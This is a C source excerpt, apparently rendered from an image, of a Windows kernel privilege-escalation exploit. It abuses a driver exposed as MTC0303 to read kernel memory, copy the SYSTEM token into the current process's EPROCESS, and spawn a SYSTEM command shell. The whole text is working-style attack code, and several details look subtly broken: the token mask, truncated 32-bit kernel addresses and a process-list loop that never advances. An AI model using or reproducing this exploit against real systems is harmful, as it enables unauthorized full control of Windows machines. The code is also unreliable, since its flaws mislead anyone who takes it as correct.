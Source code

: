 ```c
    hndl = CreateFile(L"\\\\.\\MTC0303",
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        0,
        NULL);
    if (hndl == INVALID_HANDLE_VALUE) {
        printf("[!] Couldn't get a handle: %d\n", GetLastError());
        exit(1);
    }
    
    puts("[>] Finding system EPROCESS struct...");
    char sys_eprocess_dump[0x1000];
    void* sys_eprocess_loc;
    uint64_t sys_token;
    DWORD read_res;

    sys_eprocess_loc = get_sys_eprocess();
    printf("[I] system's EPROCESS is at: %p", sys_eprocess_loc);

    // TODO: check read_res
    read_res = read_mem(hndl, sys_eprocess_loc, 
        0x1000, sys_eprocess_dump);
    
    sys_token = *(sys_eprocess_dump + 0x4b8);
    sys_token &= 0xf0;
    printf("[I] system token: %llx\n", sys_token);

    
    puts("[>] Finding our EPROCESS...");
    uint64_t original_token;
    uint32_t our_token_loc;
    char temp[0x1000];
    uint32_t flink;
    DWORD pid;

    pid = GetCurrentProcessId();
    for(;;) {
        flink = *(sys_eprocess_dump + EPROC_FLINK);
        read_mem(hndl, flink - EPROC_FLINK, 0x1000, temp);
        if (*(DWORD*)(temp + EPROC_PID) == pid) break;
    }
    original_token = *(uint64_t*)(temp + EPROC_TOKEN);
    our_token_loc = flink - EPROC_FLINK + EPROC_TOKEN;


    puts("[>] Found our EPROCESS. Replacing token...");
    write_mem(hndl, our_token_loc, &sys_token, sizeof(sys_token));
    
    puts("[>] Replaced token. Popping shell...");
    system("cmd");

    puts("[>] Putting original token back...");
    write_mem(hndl, our_token_loc, &original_token, sizeof(original_token));
    exit(0);
}
```
